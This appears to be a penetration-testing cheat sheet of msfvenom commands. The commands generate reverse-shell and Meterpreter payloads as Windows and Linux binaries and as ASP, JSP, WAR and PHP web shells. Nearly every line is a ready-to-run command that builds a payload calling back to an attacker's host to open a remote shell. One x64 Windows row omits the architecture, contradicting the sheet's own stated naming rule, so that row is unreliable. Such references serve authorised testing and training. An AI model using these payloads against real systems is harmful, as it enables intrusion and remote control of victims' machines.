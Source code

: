 ```yaml
---
legal-banner: true
---
```


### **Common mistakes to avoid**

1.  Mismatched payloads  
2.  Trying to catch a staged shell without using the multi/handler  
3.  Architecture mismatch  
4.  Remember: 32-bit payloads don’t include the architecture in the name, but 64-bit payloads do (see below).  

### **Meterpreter binaries**

#### Staged payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Meterpreter web payloads

| Format | Command |
| --- | --- |
| asp | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f raw > shell.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f war > shell.war` |
| php | `msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f raw > shell.php` |

### **Non-Meterpreter binaries**

#### Staged payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/shell/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Non-Meterpreter web payloads

| Format | Command |
| --- | --- |
| asp | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f raw > shell.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f war > shell.war` |
| php | `msfvenom -p php/reverse_php LHOST=[IP-ADDRESS] LPORT=[PORT] -f raw > shell.php` |
